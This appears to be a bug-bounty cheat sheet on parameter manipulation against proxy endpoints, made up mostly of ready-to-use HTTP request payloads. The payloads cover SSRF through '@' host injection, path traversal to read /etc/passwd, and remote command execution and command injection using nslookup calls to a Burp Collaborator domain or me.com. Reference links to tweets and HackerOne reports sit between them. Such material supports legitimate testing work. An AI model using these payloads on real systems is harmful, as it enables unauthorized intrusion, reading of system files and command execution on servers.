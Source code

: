 {% embed url="https://twitter.com/m4ll0k/status/1310439013581549568" %}

### Paameter Manipulation

* Assume Backend Endpoint Take Value Of One Parameter As Path So Inject Encode , Double OR Triple URL Encoding ;@me.com , @me.com OR :@me.com To Get SSRF

```http
POST /Endpoint-To-Proxy HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Origin: https://www.company.com
Content-Type: application/json
Content-Length: Number
{
"parameter":";@RandomString(10).id.burpcollaborator.net"
}
```

{% embed url="https://twitter.com/nnwakelam/status/1274898632223801344" %}

* Assume Backend Endpoint Take Value Of One Parameter As Rewrite Configuration e.g. `rewrite ^.*$ $arg_parameter;` So Inject e.g. LFI Payloads To Get e.g. `LFI`

```http
POST /Endpoint-To-Proxy HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Origin: https://www.company.com
Content-Type: application/json
Content-Length: Number
{ "parameter":"../../../../../../../../../../../../etc/passwd" }
```

{% embed url="https://hackerone.com/reports/513236" %}

* **RCE**

```http
POST /Endpoint-To-Proxy HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Origin: https://www.company.com
Content-Type: application/json
Content-Length: Number
{"parameter":"${nslookup id.burpcollaborator.net}"}
```

{% embed url="https://hackerone.com/reports/73567" %}

```http
POST /Endpoint-To-Proxy HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Origin: https://www.company.com
Content-Type: application/json
Content-Length: Number
{
"parameter":"&nslookup me.com&'\"`0&nslookup me.com&`'"
}
```
